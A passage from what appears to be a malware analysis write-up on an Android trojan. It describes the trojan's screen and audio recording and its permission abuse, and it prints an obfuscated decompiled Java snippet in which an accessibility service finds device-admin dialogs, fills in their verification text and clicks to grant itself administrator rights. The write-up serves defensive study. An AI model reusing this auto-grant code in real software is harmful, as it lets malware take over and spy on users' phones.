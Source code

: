 This class extends our prior class from above and uses the `MediaProjectioPermission` which can be read in detail [here](https://developer.android.com/reference/android/media/projection/MediaProjectionManager). Per the description in the Android documentation we can see that this allows the malware authors to conduct [screen and audio recording](https://developer.android.com/reference/android/media/projection/MediaProjection). Granting themselves various permissions via overlay settings, notification access, managing external storage and hidden apps configuration, and creating overlays on the device to capture data from the infected phone. Which they use to ask for the needed permissions at an administrative level. Below is a brief not so comprehensive snippet of the class. Feel free to explore more on your own.

```java
[TRUNCATED]
System.out.println(accessibilityEvent);
        int eventType = accessibilityEvent.getEventType();
        if (eventType == 32 || eventType == 2048) {
            if (Boolean.parseBoolean(String.valueOf(c91a971a13.m0e596c8347e011df(cd927992a4.f429586beea5c7441012, Boolean.TRUE))) && (ccb253bd62Var2 = fd30fb58ba3d13d5ba34) != null) {
                ccb253bd62Var2.getClass();
                if (!ccb253bd62.f514e291a2640932be3d) {
                    ccb253bd62.f514e291a2640932be3d = true;
                    if (accessibilityEvent.getClassName() != null) {
                        String charSequence = accessibilityEvent.getClassName().toString();
                        if (ccb253bd62.fc83e31617595b8d5bf6.equals("admin")) {
                            if (cc90dbdde3.mbac6a4aa1ecd0a31(c04f5ddb69.class)) {
                                ccb253bd62Var2.finished();
                            } else if (charSequence.contains("ColorDeviceAdminAdd") || charSequence.contains("COUIAlertDialog")) {
                                cb6c6c27fc cb6c6c27fcVar = ccb253bd62.fc4c3d8225e99fa54f8f;
                                AccessibilityNodeInfo findViewByContainsID = cb6c6c27fcVar.findViewByContainsID(cb6c6c27fcVar.getRootInActiveWindow(), "verification_view");
                                if (findViewByContainsID != null && findViewByContainsID.getText() != null) {
                                    String replace = findViewByContainsID.getText().toString().replace(caf5aa5dc1.ma93efdbbced5be26(new byte[]{103, -60, 70, 86, 125, -4, -68, -98, -83, 106, 91, 110, Byte.MAX_VALUE, 32, 90, -107}), caf5aa5dc1.ma93efdbbced5be26(new byte[]{125, 32, -15, -70, 10, -32, -79, -103, -93, -49, 23, 72, -19, -100, 34, -51}));
                                    cb6c6c27fc cb6c6c27fcVar2 = ccb253bd62.fc4c3d8225e99fa54f8f;
                                    AccessibilityNodeInfo findViewByContainsID2 = cb6c6c27fcVar2.findViewByContainsID(cb6c6c27fcVar2.getRootInActiveWindow(), "edittext_view");
                                    if (findViewByContainsID2 != null) {
                                        ccb253bd62.fc4c3d8225e99fa54f8f.inputText(findViewByContainsID2, replace);
                                        cb6c6c27fc cb6c6c27fcVar3 = ccb253bd62.fc4c3d8225e99fa54f8f;
                                        AccessibilityNodeInfo findViewByContainsID3 = cb6c6c27fcVar3.findViewByContainsID(cb6c6c27fcVar3.getRootInActiveWindow(), "action_button");
                                        if (findViewByContainsID3 != null) {
                                            ccb253bd62.fc4c3d8225e99fa54f8f.performViewClick(findViewByContainsID3);
                                        } else {
                                            cb6c6c27fc cb6c6c27fcVar4 = ccb253bd62.fc4c3d8225e99fa54f8f;
                                            cb6c6c27fcVar4.performViewClick(cb6c6c27fcVar4.findTextOnView(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-14, -109, -68, 68, 5, 93, 98, 63, -109, Byte.MAX_VALUE, -118, 59, 106, -72, 34, 12, -102, -126, 76, 123, 66, -58, 22, -33, 46, 25, 116, -8, -66, -99, -109, 35})));
                                        }
                                    }
                                }
                            } else if (charSequence.contains("DeviceAdminAdd")) {
                                cb6c6c27fc cb6c6c27fcVar5 = ccb253bd62.fc4c3d8225e99fa54f8f;
                                AccessibilityNodeInfo findViewByContainsID4 = cb6c6c27fcVar5.findViewByContainsID(cb6c6c27fcVar5.getRootInActiveWindow(), "action_button");
                                if (findViewByContainsID4 != null) {
```